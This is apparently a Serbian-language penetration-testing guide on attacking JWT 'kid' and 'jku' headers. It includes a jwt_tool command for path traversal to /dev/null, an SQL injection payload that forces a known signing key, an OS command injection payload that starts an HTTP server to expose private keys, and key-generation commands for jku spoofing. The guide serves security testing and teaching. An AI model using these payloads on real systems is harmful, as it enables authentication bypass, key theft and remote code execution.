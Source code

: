 #### Otkrivanje Ključa putem "kid"

Kada je `kid` zahtev prisutan u zaglavlju, preporučuje se pretraživanje web direktorijuma za odgovarajući fajl ili njegove varijacije. Na primer, ako je `"kid":"ključ/12345"` naveden, fajlovi _/ključ/12345_ i _/ključ/12345.pem_ treba da se pretraže u web root-u.

#### Putanja Traversiranja sa "kid"

`kid` zahtev takođe može biti iskorišćen za navigaciju kroz sistem fajlova, potencijalno omogućavajući izbor proizvoljnog fajla. Moguće je testirati konektivnost ili izvršiti Server-Side Request Forgery (SSRF) napade menjanjem vrednosti `kid` da cilja određene fajlove ili servise. Manipulisanje JWT-a za promenu vrednosti `kid` dok se zadržava originalni potpis može se postići korišćenjem `-T` zastave u jwt\_tool, kako je prikazano ispod:

```bash
python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""
```

### Napad na JWT putem "kid"

Ciljanjem datoteka sa predvidljivim sadržajem moguće je falsifikovati validan JWT. Na primer, datoteka `/proc/sys/kernel/randomize_va_space` u Linux sistemima, poznata po vrednosti **2**, može se koristiti u parametru `kid` sa **2** kao simetričnom lozinkom za generisanje JWT-a.

#### SQL Injection putem "kid"

Ako se sadržaj tvrdnje `kid` koristi za dohvat lozinke iz baze podataka, SQL injection može biti olakšana modifikovanjem `kid` payload-a. Primer payload-a koji koristi SQL injection za izmenu procesa potpisa JWT-a uključuje:

`non-existent-index' UNION SELECT 'ATTACKER';-- -`

Ova izmena prisiljava korišćenje poznatog tajnog ključa, `ATTACKER`, za potpisivanje JWT-a.

#### OS Injection putem "kid"

Scenario u kojem parametar `kid` specificira putanju datoteke koja se koristi unutar konteksta izvršavanja komande može dovesti do ranjivosti na udaljeno izvršavanje koda (RCE). Ubacivanjem komandi u parametar `kid`, moguće je otkriti privatne ključeve. Primer payload-a za postizanje RCE-a i otkrivanje ključeva je:

`/root/res/keys/secret7.key; cd /root/res/keys/ && python -m SimpleHTTPServer 1337&`

### x5u i jku

#### jku

jku označava **JWK Set URL**.\
Ako token koristi "jku" **Header** tvrdnju, **proverite pruženu URL**. Ova URL bi trebalo da pokazuje ka URL-u koji sadrži JWKS datoteku koja drži javni ključ za proveru tokena. Modifikujte token da jku vrednost pokazuje ka web servisu za koji možete pratiti saobraćaj.

Prvo morate kreirati novi sertifikat sa novim privatnim i javnim ključevima.

```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```
